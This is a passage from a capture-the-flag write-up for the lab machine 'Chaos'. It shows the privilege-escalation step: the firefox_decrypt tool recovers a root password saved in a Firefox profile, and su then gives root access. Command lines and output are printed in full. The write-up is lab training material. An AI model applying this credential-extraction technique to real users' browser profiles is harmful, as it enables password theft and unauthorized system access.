 # Escalation

I'm using `firefox decrypt` to find password stocked on firefox : https://github.com/unode/firefox_decrypt

```bash
$ python3 firefox_decrypt.py ../firefox/

Master Password for profile ../firefox/bzo7sjt1.default: jiujitsu

Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'
```

And... We are root.

```bash
ayush@chaos:~/.mozilla$ su root
Password: Thiv8wrej~
root@chaos:/home/ayush/.mozilla# id
uid=0(root) gid=0(root) groups=0(root)
```
